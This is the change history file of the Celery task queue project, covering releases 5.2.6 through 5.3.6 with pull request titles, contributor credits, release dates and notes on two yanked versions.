 .. _changelog:

================
 Change history
================

This document contains change notes for bugfix & new features
in the main branch & 5.3.x series, please see :ref:`whatsnew-5.3` for
an overview of what's new in Celery 5.3.


.. _version-5.3.6:

5.3.6
=====

:release-date: 2023-11-22  7:15 P.M GMT+6
:release-by: Asif Saif Uddin

What's Changed
==============
- Increased docker-build CI job timeout from 30m -> 60m by @Nusnus in https://github.com/celery/celery/pull/8635
- Incredibly minor spelling fix. by @Asday in https://github.com/celery/celery/pull/8649
- Fix non-zero exit code when receiving remote shutdown by @lyzlisa in https://github.com/celery/celery/pull/8650
- Update task.py get_custom_headers missing 'compression' key by @auvipy in https://github.com/celery/celery/pull/8633
- Update kombu>=5.3.4 to fix SQS request compatibility by @auvipy in https://github.com/celery/celery/pull/8646
- test requirements version update by @auvipy in https://github.com/celery/celery/pull/8655
- Update elasticsearch version by @auvipy in https://github.com/celery/celery/pull/8656
- Propagates more ImportErrors during autodiscovery by @johnjameswhitman in https://github.com/celery/celery/pull/8632

New Contributors
================
- @Asday made their first contribution in https://github.com/celery/celery/pull/8649
- @lyzlisa made their first contribution in https://github.com/celery/celery/pull/8650
- @johnjameswhitman made their first contribution in https://github.com/celery/celery/pull/8632


.. _version-5.3.5:

5.3.5
=====

:release-date: 2023-11-10  7:15 P.M GMT+6
:release-by: Asif Saif Uddin


What's Changed
==============
- Update test.txt versions by @auvipy in https://github.com/celery/celery/pull/8481
- fix os.getcwd() FileNotFoundError by @mortimer2015 in https://github.com/celery/celery/pull/8448
- Fix typo in CONTRIBUTING.rst by @monteiro-renato in https://github.com/celery/celery/pull/8494
- typo(doc): configuration.rst by @shifenhutu in https://github.com/celery/celery/pull/8484
- assert before raise by @monteiro-renato in https://github.com/celery/celery/pull/8495
- Update GHA checkout version by @auvipy in https://github.com/celery/celery/pull/8496
- Fixed replaced_task_nesting by @Nusnus in https://github.com/celery/celery/pull/8500
- Fix code indentation for route_task() example by @stefmolin in https://github.com/celery/celery/pull/8502
- support redis 5.x by @dulmandakh in https://github.com/celery/celery/pull/8504
- Fix typos in test_canvas.py by @monteiro-renato in https://github.com/celery/celery/pull/8498
- Marked flaky tests by @Nusnus in https://github.com/celery/celery/pull/8508
- Fix typos in calling.rst by @visitorckw in https://github.com/celery/celery/pull/8506
- Added support for replaced_task_nesting in chains by @Nusnus in https://github.com/celery/celery/pull/8501
- Fix typos in canvas.rst by @visitorckw in https://github.com/celery/celery/pull/8509
- Patch Version Release Checklist by @Nusnus in https://github.com/celery/celery/pull/8488
- Added Python 3.11 support to Dockerfile by @Nusnus in https://github.com/celery/celery/pull/8511
- Dependabot (Celery) by @Nusnus in https://github.com/celery/celery/pull/8510
- Bump actions/checkout from 3 to 4 by @dependabot in https://github.com/celery/celery/pull/8512
- Update ETA example to include timezone by @amantri in https://github.com/celery/celery/pull/8516
- Replaces datetime.fromisoformat with the more lenient dateutil parser by @stumpylog in https://github.com/celery/celery/pull/8507
- Fixed indentation in Dockerfile for Python 3.11 by @Nusnus in https://github.com/celery/celery/pull/8527
- Fix git bug in Dockerfile by @Nusnus in https://github.com/celery/celery/pull/8528
- Tox lint upgrade from Python 3.9 to Python 3.11 by @Nusnus in https://github.com/celery/celery/pull/8526
- Document gevent concurrency by @cunla in https://github.com/celery/celery/pull/8520
- Update test.txt by @auvipy in https://github.com/celery/celery/pull/8530
- Celery Docker Upgrades by @Nusnus in https://github.com/celery/celery/pull/8531
- pyupgrade upgrade v3.11.0 -> v3.13.0 by @Nusnus in https://github.com/celery/celery/pull/8535
- Update msgpack.txt by @auvipy in https://github.com/celery/celery/pull/8548
- Update auth.txt by @auvipy in https://github.com/celery/celery/pull/8547
- Update msgpack.txt to fix build issues by @auvipy in https://github.com/celery/celery/pull/8552
- Basic ElasticSearch / ElasticClient 8.x Support by @q2justin in https://github.com/celery/celery/pull/8519
- Fix eager tasks does not populate name field by @KOliver94 in https://github.com/celery/celery/pull/8486
- Fix typo in celery.app.control by @Spaceface16518 in https://github.com/celery/celery/pull/8563
- Update solar.txt ephem by @auvipy in https://github.com/celery/celery/pull/8566
- Update test.txt pytest-timeout by @auvipy in https://github.com/celery/celery/pull/8565
- Correct some mypy errors by @rbtcollins in https://github.com/celery/celery/pull/8570
- Update elasticsearch.txt by @auvipy in https://github.com/celery/celery/pull/8573
- Update test.txt deps by @auvipy in https://github.com/celery/celery/pull/8574
- Update test.txt by @auvipy in https://github.com/celery/celery/pull/8590
- Improved the "Next steps" documentation (#8561). by @frolenkov-nikita in https://github.com/celery/celery/pull/8600
- Disabled couchbase tests due to broken package breaking main by @Nusnus in https://github.com/celery/celery/pull/8602
- Update elasticsearch deps by @auvipy in https://github.com/celery/celery/pull/8605
- Update cryptography==41.0.5 by @auvipy in https://github.com/celery/celery/pull/8604
- Update pytest==7.4.3 by @auvipy in https://github.com/celery/celery/pull/8606
- test initial support of python 3.12.x by @auvipy in https://github.com/celery/celery/pull/8549
- updated new versions to fix CI by @auvipy in https://github.com/celery/celery/pull/8607
- Update zstd.txt by @auvipy in https://github.com/celery/celery/pull/8609
- Fixed CI Support with Python 3.12 by @Nusnus in https://github.com/celery/celery/pull/8611
- updated CI, docs and classifier for next release by @auvipy in https://github.com/celery/celery/pull/8613
- updated dockerfile to add python 3.12 by @auvipy in https://github.com/celery/celery/pull/8614
- lint,mypy,docker-unit-tests -> Python 3.12 by @Nusnus in https://github.com/celery/celery/pull/8617
- Correct type of `request` in `task_revoked` documentation by @RJPercival in https://github.com/celery/celery/pull/8616
- update docs docker image by @auvipy in https://github.com/celery/celery/pull/8618
- Fixed RecursionError caused by giving `config_from_object` nested mod… by @frolenkov-nikita in https://github.com/celery/celery/pull/8619
- Fix: serialization error when gossip working by @kitsuyui in https://github.com/celery/celery/pull/6566
* [documentation] broker_connection_max_retries of 0 does not mean "retry forever" by @jakila in https://github.com/celery/celery/pull/8626
- added 2  debian package for better stability in Docker by @auvipy in https://github.com/celery/celery/pull/8629


New Contributors
================
- @mortimer2015 made their first contribution in https://github.com/celery/celery/pull/8448
- @monteiro-renato made their first contribution in https://github.com/celery/celery/pull/8494
- @shifenhutu made their first contribution in https://github.com/celery/celery/pull/8484
- @stefmolin made their first contribution in https://github.com/celery/celery/pull/8502
- @visitorckw made their first contribution in https://github.com/celery/celery/pull/8506
- @dependabot made their first contribution in https://github.com/celery/celery/pull/8512
- @amantri made their first contribution in https://github.com/celery/celery/pull/8516
- @cunla made their first contribution in https://github.com/celery/celery/pull/8520
- @q2justin made their first contribution in https://github.com/celery/celery/pull/8519
- @Spaceface16518 made their first contribution in https://github.com/celery/celery/pull/8563
- @rbtcollins made their first contribution in https://github.com/celery/celery/pull/8570
- @frolenkov-nikita made their first contribution in https://github.com/celery/celery/pull/8600
- @RJPercival made their first contribution in https://github.com/celery/celery/pull/8616
- @kitsuyui made their first contribution in https://github.com/celery/celery/pull/6566
- @jakila made their first contribution in https://github.com/celery/celery/pull/8626


.. _version-5.3.4:

5.3.4
=====

:release-date: 2023-09-03 10:10 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has reverted the breaking changes introduced in 5.3.2 and 5.3.3:

   - Revert "store children with database backend" (#8475)
   - Revert "Fix eager tasks does not populate name field" (#8476)

- Bugfix: Removed unecessary stamping code from _chord.run() (#8339)
- User guide fix (hotfix for #1755) (#8342)
- store children with database backend (#8338)
- Stamping bugfix with group/chord header errback linking (#8347)
- Use argsrepr and kwargsrepr in LOG_RECEIVED (#8301)
- Fixing minor typo in code example in calling.rst (#8366)
- add documents for timeout settings (#8373)
- fix: copyright year (#8380)
- setup.py: enable include_package_data (#8379)
- Fix eager tasks does not populate name field (#8383)
- Update test.txt dependencies (#8389)
- Update auth.txt deps (#8392)
- Fix backend.get_task_meta ignores the result_extended config parameter in mongodb backend (#8391)
- Support preload options for shell and purge commands (#8374)
- Implement safer ArangoDB queries (#8351)
- integration test: cleanup worker after test case (#8361)
- Added "Tomer Nosrati" to CONTRIBUTORS.txt (#8400)
- Update README.rst (#8404)
- Update README.rst (#8408)
- fix(canvas): add group index when unrolling tasks (#8427)
- fix(beat): debug statement should only log AsyncResult.id if it exists (#8428)
- Lint fixes & pre-commit autoupdate (#8414)
- Update auth.txt (#8435)
- Update mypy on test.txt (#8438)
- added missing kwargs arguments in some cli cmd (#8049)
- Fix #8431: Set format_date to False when calling _get_result_meta on mongo backend (#8432)
- Docs: rewrite out-of-date code (#8441)
- Limit redis client to 4.x since 5.x fails the test suite (#8442)
- Limit tox to < 4.9 (#8443)
- Fixed issue: Flags broker_connection_retry_on_startup & broker_connection_retry aren’t reliable (#8446)
- doc update from #7651 (#8451)
- Remove tox version limit (#8464)
- Fixed AttributeError: 'str' object has no attribute (#8463)
- Upgraded Kombu from 5.3.1 -> 5.3.2 (#8468)
- Document need for CELERY_ prefix on CLI env vars (#8469)
- Use string value for CELERY_SKIP_CHECKS envvar (#8462)
- Revert "store children with database backend" (#8475)
- Revert "Fix eager tasks does not populate name field" (#8476)
- Update Changelog (#8474)
- Remove as it seems to be buggy. (#8340)
- Revert "Add Semgrep to CI" (#8477)
- Revert "Revert "Add Semgrep to CI"" (#8478)

.. _version-5.3.3:

5.3.3 (Yanked)
==============

:release-date: 2023-08-31 1:47 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has been yanked due to breaking API changes. The breaking changes include:

   - Store children with database backend (#8338)
   - Fix eager tasks does not populate name field (#8383)

- Fixed changelog for 5.3.2 release docs.

.. _version-5.3.2:

5.3.2 (Yanked)
==============

:release-date: 2023-08-31 1:30 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has been yanked due to breaking API changes. The breaking changes include:

   - Store children with database backend (#8338)
   - Fix eager tasks does not populate name field (#8383)

- Bugfix: Removed unecessary stamping code from _chord.run() (#8339)
- User guide fix (hotfix for #1755) (#8342)
- Store children with database backend (#8338)
- Stamping bugfix with group/chord header errback linking (#8347)
- Use argsrepr and kwargsrepr in LOG_RECEIVED (#8301)
- Fixing minor typo in code example in calling.rst (#8366)
- Add documents for timeout settings (#8373)
- Fix: copyright year (#8380)
- Setup.py: enable include_package_data (#8379)
- Fix eager tasks does not populate name field (#8383)
- Update test.txt dependencies (#8389)
- Update auth.txt deps (#8392)
- Fix backend.get_task_meta ignores the result_extended config parameter in mongodb backend (#8391)
- Support preload options for shell and purge commands (#8374)
- Implement safer ArangoDB queries (#8351)
- Integration test: cleanup worker after test case (#8361)
- Added "Tomer Nosrati" to CONTRIBUTORS.txt (#8400)
- Update README.rst (#8404)
- Update README.rst (#8408)
- Fix(canvas): add group index when unrolling tasks (#8427)
- Fix(beat): debug statement should only log AsyncResult.id if it exists (#8428)
- Lint fixes & pre-commit autoupdate (#8414)
- Update auth.txt (#8435)
- Update mypy on test.txt (#8438)
- Added missing kwargs arguments in some cli cmd (#8049)
- Fix #8431: Set format_date to False when calling _get_result_meta on mongo backend (#8432)
- Docs: rewrite out-of-date code (#8441)
- Limit redis client to 4.x since 5.x fails the test suite (#8442)
- Limit tox to < 4.9 (#8443)
- Fixed issue: Flags broker_connection_retry_on_startup & broker_connection_retry aren’t reliable (#8446)
- Doc update from #7651 (#8451)
- Remove tox version limit (#8464)
- Fixed AttributeError: 'str' object has no attribute (#8463)
- Upgraded Kombu from 5.3.1 -> 5.3.2 (#8468)

.. _version-5.3.1:

5.3.1
=====

:release-date: 2023-06-18  8:15 P.M GMT+6
:release-by: Asif Saif Uddin

- Upgrade to latest pycurl release (#7069).
- Limit librabbitmq>=2.0.0; python_version < '3.11' (#8302).
- Added initial support for python 3.11 (#8304).
- ChainMap observers fix (#8305).
- Revert optimization CLI flag behaviour back to original.
- Restrict redis 4.5.5 as it has severe bugs (#8317).
- Tested pypy 3.10 version in CI (#8320).
- Bump new version of kombu to 5.3.1 (#8323).
- Fixed a small float value of retry_backoff (#8295).
- Limit pyro4 up to python 3.10 only as it is (#8324).

.. _version-5.3.0:

5.3.0
=====

:release-date: 2023-06-06 12:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Test kombu 5.3.0 & minor doc update (#8294).
- Update librabbitmq.txt > 2.0.0 (#8292).
- Upgrade syntax to py3.8 (#8281).

.. _version-5.3.0rc2:

5.3.0rc2
========

:release-date: 2023-05-31 9:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Add missing dependency.
- Fix exc_type being the exception instance rather.
- Fixed revoking tasks by stamped headers (#8269).
- Support sqlalchemy 2.0 in tests (#8271).
- Fix docker (#8275).
- Update redis.txt to 4.5 (#8278).
- Update kombu>=5.3.0rc2.


.. _version-5.3.0rc1:

5.3.0rc1
========

:release-date: 2023-05-11 4:24 P.M GMT+2
:release-by: Tomer Nosrati

- fix functiom name by @cuishuang in #8087
- Update CELERY_TASK_EAGER setting in user guide by @thebalaa in #8085
- Stamping documentation fixes & cleanups by @Nusnus in #8092
- switch to maintained pyro5 by @auvipy in #8093
- udate dependencies of tests by @auvipy in #8095
- cryptography==39.0.1 by @auvipy in #8096
- Annotate celery/security/certificate.py by @Kludex in #7398
- Deprecate parse_iso8601 in favor of fromisoformat by @stumpylog in #8098
- pytest==7.2.2 by @auvipy in #8106
- Type annotations for celery/utils/text.py by @max-muoto in #8107
- Update web framework URLs by @sblondon in #8112
- Fix contribution URL by @sblondon in #8111
- Trying to clarify CERT_REQUIRED by @pamelafox in #8113
- Fix potential AttributeError on 'stamps' by @Darkheir in #8115
- Type annotations for celery/apps/beat.py by @max-muoto in #8108
- Fixed bug where retrying a task loses its stamps by @Nusnus in #8120
- Type hints for celery/schedules.py by @max-muoto in #8114
- Reference Gopher Celery in README by @marselester in #8131
- Update sqlalchemy.txt by @auvipy in #8136
- azure-storage-blob 12.15.0 by @auvipy in #8137
- test kombu 5.3.0b3 by @auvipy in #8138
- fix: add expire string parse. by @Bidaya0 in #8134
- Fix worker crash on un-pickleable exceptions by @youtux in #8133
- CLI help output: avoid text rewrapping by click by @woutdenolf in #8152
- Warn when an unnamed periodic task override another one. by @iurisilvio in #8143
- Fix Task.handle_ignore not wrapping exceptions properly by @youtux in #8149
- Hotfix for (#8120) - Stamping bug with retry by @Nusnus in #8158
- Fix integration test by @youtux in #8156
- Fixed bug in revoke_by_stamped_headers where impl did not match doc by @Nusnus in #8162
- Align revoke and revoke_by_stamped_headers return values (terminate=True) by @Nusnus in #8163
- Update & simplify GHA pip caching by @stumpylog in #8164
- Update auth.txt by @auvipy in #8167
- Update test.txt versions by @auvipy in #8173
- remove extra = from test.txt by @auvipy in #8179
- Update sqs.txt kombu[sqs]>=5.3.0b3 by @auvipy in #8174
- Added signal triggered before fork by @jaroslawporada in #8177
- Update documentation on SQLAlchemy by @max-muoto in #8188
- Deprecate pytz and use zoneinfo by @max-muoto in #8159
- Update dev.txt by @auvipy in #8192
- Update test.txt by @auvipy in #8193
- Update test-integration.txt by @auvipy in #8194
- Update zstd.txt by @auvipy in #8195
- Update s3.txt by @auvipy in #8196
- Update msgpack.txt by @auvipy in #8199
- Update solar.txt by @auvipy in #8198
- Add Semgrep to CI by @Nusnus in #8201
- Added semgrep to README.rst by @Nusnus in #8202
- Update django.txt by @auvipy in #8197
- Update redis.txt 4.3.6 by @auvipy in #8161
- start removing codecov from pypi by @auvipy in #8206
- Update test.txt dependencies by @auvipy in #8205
- Improved doc for: worker_deduplicate_successful_tasks by @Nusnus in #8209
- Renamed revoked_headers to revoked_stamps by @Nusnus in #8210
- Ensure argument for map is JSON serializable by @candleindark in #8229

.. _version-5.3.0b2:

5.3.0b2
=======

:release-date: 2023-02-19 1:47 P.M GMT+2
:release-by: Asif Saif Uddin

- BLM-2: Adding unit tests to chord clone by @Nusnus in #7668
- Fix unknown task error typo by @dcecile in #7675
- rename redis integration test class so that tests are executed by @wochinge in #7684
- Check certificate/private key type when loading them by @qrmt in #7680
- Added integration test_chord_header_id_duplicated_on_rabbitmq_msg_duplication() by @Nusnus in #7692
- New feature flag: allow_error_cb_on_chord_header - allowing setting an error callback on chord header by @Nusnus in #7712
- Update README.rst sorting Python/Celery versions by @andrebr in #7714
- Fixed a bug where stamping a chord body would not use the correct stamping method by @Nusnus in #7722
- Fixed doc duplication typo for Signature.stamp() by @Nusnus in #7725
- Fix issue 7726: variable used in finally block may not be instantiated by @woutdenolf in #7727
- Fixed bug in chord stamping with another chord as a body + unit test by @Nusnus in #7730
- Use "describe_table" not "create_table" to check for existence of DynamoDB table by @maxfirman in #7734
- Enhancements for task_allow_error_cb_on_chord_header tests and docs by @Nusnus in #7744
- Improved custom stamping visitor documentation by @Nusnus in #7745
- Improved the coverage of test_chord_stamping_body_chord() by @Nusnus in #7748
- billiard >= 3.6.3.0,<5.0 for rpm by @auvipy in #7764
- Fixed memory leak with ETA tasks at connection error when worker_cancel_long_running_tasks_on_connection_loss is enabled by @Nusnus in #7771
- Fixed bug where a chord with header of type tuple was not supported in the link_error flow for task_allow_error_cb_on_chord_header flag by @Nusnus in #7772
- Scheduled weekly dependency update for week 38 by @pyup-bot in #7767
- recreate_module: set spec to the new module by @skshetry in #7773
- Override integration test config using integration-tests-config.json by @thedrow in #7778
- Fixed error handling bugs due to upgrade to a newer version of billiard by @Nusnus in #7781
- Do not recommend using easy_install anymore by @jugmac00 in #7789
- GitHub Workflows security hardening by @sashashura in #7768
- Update ambiguous acks_late doc by @Zhong-z in #7728
- billiard >=4.0.2,<5.0 by @auvipy in #7720
- importlib_metadata remove deprecated entry point interfaces by @woutdenolf in #7785
- Scheduled weekly dependency update for week 41 by @pyup-bot in #7798
- pyzmq>=22.3.0 by @auvipy in #7497
- Remove amqp from the BACKEND_ALISES list by @Kludex in #7805
- Replace print by logger.debug by @Kludex in #7809
- Ignore coverage on except ImportError by @Kludex in #7812
- Add mongodb dependencies to test.txt by @Kludex in #7810
- Fix grammar typos on the whole project by @Kludex in #7815
- Remove isatty wrapper function by @Kludex in #7814
- Remove unused variable _range by @Kludex in #7813
- Add type annotation on concurrency/threads.py by @Kludex in #7808
- Fix linter workflow by @Kludex in #7816
- Scheduled weekly dependency update for week 42 by @pyup-bot in #7821
- Remove .cookiecutterrc by @Kludex in #7830
- Remove .coveragerc file by @Kludex in #7826
- kombu>=5.3.0b2 by @auvipy in #7834
- Fix readthedocs build failure by @woutdenolf in #7835
- Fixed bug in group, chord, chain stamp() method, where the visitor overrides the previously stamps in tasks of these objects by @Nusnus in #7825
- Stabilized test_mutable_errback_called_by_chord_from_group_fail_multiple by @Nusnus in #7837
- Use SPDX license expression in project metadata by @RazerM in #7845
- New control command revoke_by_stamped_headers by @Nusnus in #7838
- Clarify wording in Redis priority docs by @strugee in #7853
- Fix non working example of using celery_worker pytest fixture by @paradox-lab in #7857
- Removed the mandatory requirement to include stamped_headers key when implementing on_signature() by @Nusnus in #7856
- Update serializer docs by @sondrelg in #7858
- Remove reference to old Python version by @Kludex in #7829
- Added on_replace() to Task to allow manipulating the replaced sig with custom changes at the end of the task.replace() by @Nusnus in #7860
- Add clarifying information to completed_count documentation by @hankehly in #7873
- Stabilized test_revoked_by_headers_complex_canvas by @Nusnus in #7877
- StampingVisitor will visit the callbacks and errbacks of the signature by @Nusnus in #7867
- Fix "rm: no operand" error in clean-pyc script by @hankehly in #7878
- Add --skip-checks flag to bypass django core checks by @mudetz in #7859
- Scheduled weekly dependency update for week 44 by @pyup-bot in #7868
- Added two new unit tests to callback stamping by @Nusnus in #7882
- Sphinx extension: use inspect.signature to make it Python 3.11 compatible by @mathiasertl in #7879
- cryptography==38.0.3 by @auvipy in #7886
- Canvas.py doc enhancement by @Nusnus in #7889
- Fix typo by @sondrelg in #7890
- fix typos in optional tests by @hsk17 in #7876
- Canvas.py doc enhancement by @Nusnus in #7891
- Fix revoke by headers tests stability by @Nusnus in #7892
- feat: add global keyprefix for backend result keys by @kaustavb12 in #7620
- Canvas.py doc enhancement by @Nusnus in #7897
- fix(sec): upgrade sqlalchemy to 1.2.18 by @chncaption in #7899
- Canvas.py doc enhancement by @Nusnus in #7902
- Fix test warnings by @ShaheedHaque in #7906
- Support for out-of-tree worker pool implementations by @ShaheedHaque in #7880
- Canvas.py doc enhancement by @Nusnus in #7907
- Use bound task in base task example. Closes #7909 by @WilliamDEdwards in #7910
- Allow the stamping visitor itself to set the stamp value type instead of casting it to a list by @Nusnus in #7914
- Stamping a task left the task properties dirty by @Nusnus in #7916
- Fixed bug when chaining a chord with a group by @Nusnus in #7919
- Fixed bug in the stamping visitor mechanism where the request was lacking the stamps in the 'stamps' property by @Nusnus in #7928
- Fixed bug in task_accepted() where the request was not added to the requests but only to the active_requests by @Nusnus in #7929
- Fix bug in TraceInfo._log_error() where the real exception obj was hiding behind 'ExceptionWithTraceback' by @Nusnus in #7930
- Added integration test: test_all_tasks_of_canvas_are_stamped() by @Nusnus in #7931
- Added new example for the stamping mechanism: examples/stamping by @Nusnus in #7933
- Fixed a bug where replacing a stamped task and stamping it again by @Nusnus in #7934
- Bugfix for nested group stamping on task replace by @Nusnus in #7935
- Added integration test test_stamping_example_canvas() by @Nusnus in #7937
- Fixed a bug in losing chain links when unchaining an inner chain with links by @Nusnus in #7938
- Removing as not mandatory by @auvipy in #7885
- Housekeeping for Canvas.py by @Nusnus in #7942
- Scheduled weekly dependency update for week 50 by @pyup-bot in #7954
- try pypy 3.9 in CI by @auvipy in #7956
- sqlalchemy==1.4.45 by @auvipy in #7943
- billiard>=4.1.0,<5.0 by @auvipy in #7957
- feat(typecheck): allow changing type check behavior on the app level; by @moaddib666 in #7952
- Add broker_channel_error_retry option by @nkns165 in #7951
- Add beat_cron_starting_deadline_seconds to prevent unwanted cron runs by @abs25 in #7945
- Scheduled weekly dependency update for week 51 by @pyup-bot in #7965
- Added doc to "retry_errors" newly supported field of "publish_retry_policy" of the task namespace by @Nusnus in #7967
- Renamed from master to main in the docs and the CI workflows by @Nusnus in #7968
- Fix docs for the exchange to use with worker_direct by @alessio-b2c2 in #7973
- Pin redis==4.3.4 by @auvipy in #7974
- return list of nodes to make sphinx extension compatible with Sphinx 6.0 by @mathiasertl in #7978
- use version range redis>=4.2.2,<4.4.0 by @auvipy in #7980
- Scheduled weekly dependency update for week 01 by @pyup-bot in #7987
- Add annotations to minimise differences with celery-aio-pool's tracer.py. by @ShaheedHaque in #7925
- Fixed bug where linking a stamped task did not add the stamp to the link's options by @Nusnus in #7992
- sqlalchemy==1.4.46 by @auvipy in #7995
- pytz by @auvipy in #8002
- Fix few typos, provide configuration + workflow for codespell to catch any new by @yarikoptic in #8023
- RabbitMQ links update by @arnisjuraga in #8031
- Ignore files generated by tests by @Kludex in #7846
- Revert "sqlalchemy==1.4.46 (#7995)" by @Nusnus in #8033
- Fixed bug with replacing a stamped task with a chain or a group (inc. links/errlinks) by @Nusnus in #8034
- Fixed formatting in setup.cfg that caused flake8 to misbehave by @Nusnus in #8044
- Removed duplicated import Iterable by @Nusnus in #8046
- Fix docs by @Nusnus in #8047
- Document --logfile default by @strugee in #8057
- Stamping Mechanism Refactoring by @Nusnus in #8045
- result_backend_thread_safe config shares backend across threads by @CharlieTruong in #8058
- Fix cronjob that use day of month and negative UTC timezone by @pkyosx in #8053
- Stamping Mechanism Examples Refactoring by @Nusnus in #8060
- Fixed bug in Task.on_stamp_replaced() by @Nusnus in #8061
- Stamping Mechanism Refactoring 2 by @Nusnus in #8064
- Changed default append_stamps from True to False (meaning duplicates … by @Nusnus in #8068
- typo in comment: mailicious => malicious by @yanick in #8072
- Fix command for starting flower with specified broker URL by @ShukantPal in #8071
- Improve documentation on ETA/countdown tasks (#8069) by @norbertcyran in #8075

.. _version-5.3.0b1:

5.3.0b1
=======

:release-date: 2022-08-01 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Canvas Header Stamping (#7384).
- async chords should pass it's kwargs to the group/body.
- beat: Suppress banner output with the quiet option (#7608).
- Fix honor Django's TIME_ZONE setting.
- Don't warn about DEBUG=True for Django.
- Fixed the on_after_finalize cannot access tasks due to deadlock.
- Bump kombu>=5.3.0b1,<6.0.
- Make default worker state limits configurable (#7609).
- Only clear the cache if there are no active writers.
- Billiard 4.0.1

.. _version-5.3.0a1:

5.3.0a1
=======

:release-date: 2022-06-29 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Remove Python 3.4 compatibility code.
- call ping to set connection attr for avoiding redis parse_response error.
- Use importlib instead of deprecated pkg_resources.
- fix #7245 uid duplicated in command params.
- Fix subscribed_to maybe empty (#7232).
- Fix: Celery beat sleeps 300 seconds sometimes even when it should run a task within a few seconds (e.g. 13 seconds) #7290.
- Add security_key_password option (#7292).
- Limit elasticsearch support to below version 8.0.
- try new major release of pytest 7 (#7330).
- broker_connection_retry should no longer apply on startup (#7300).
- Remove __ne__ methods (#7257).
- fix #7200 uid and gid.
- Remove exception-throwing from the signal handler.
- Add mypy to the pipeline (#7383).
- Expose more debugging information when receiving unknown tasks. (#7405)
- Avoid importing buf_t from billiard's compat module as it was removed.
- Avoid negating a constant in a loop. (#7443)
- Ensure expiration is of float type when migrating tasks (#7385).
- load_extension_class_names - correct module_name (#7406)
- Bump pymongo[srv]>=4.0.2.
- Use inspect.getgeneratorstate in asynpool.gen_not_started (#7476).
- Fix test with missing .get() (#7479).
- azure-storage-blob>=12.11.0
- Make start_worker, setup_default_app reusable outside of pytest.
- Ensure a proper error message is raised when id for key is empty (#7447).
- Crontab string representation does not match UNIX crontab expression.
- Worker should exit with ctx.exit to get the right exitcode for non-zero.
- Fix expiration check (#7552).
- Use callable built-in.
- Include dont_autoretry_for option in tasks. (#7556)
- fix: Syntax error in arango query.
- Fix custom headers propagation on task retries (#7555).
- Silence backend warning when eager results are stored.
- Reduce prefetch count on restart and gradually restore it (#7350).
- Improve workflow primitive subclassing (#7593).
- test kombu>=5.3.0a1,<6.0 (#7598).
- Canvas Header Stamping (#7384).

.. _version-5.2.7:

5.2.7
=====

:release-date: 2022-5-26 12:15 P.M UTC+2:00
:release-by: Omer Katz

- Fix packaging issue which causes poetry 1.2b1 and above to fail install Celery (#7534).

.. _version-5.2.6:

5.2.6
=====

:release-date: 2022-4-04 21:15 P.M UTC+2:00
:release-by: Omer Katz

- load_extension_class_names - correct module_name (#7433).
    This fixes a regression caused by #7218.

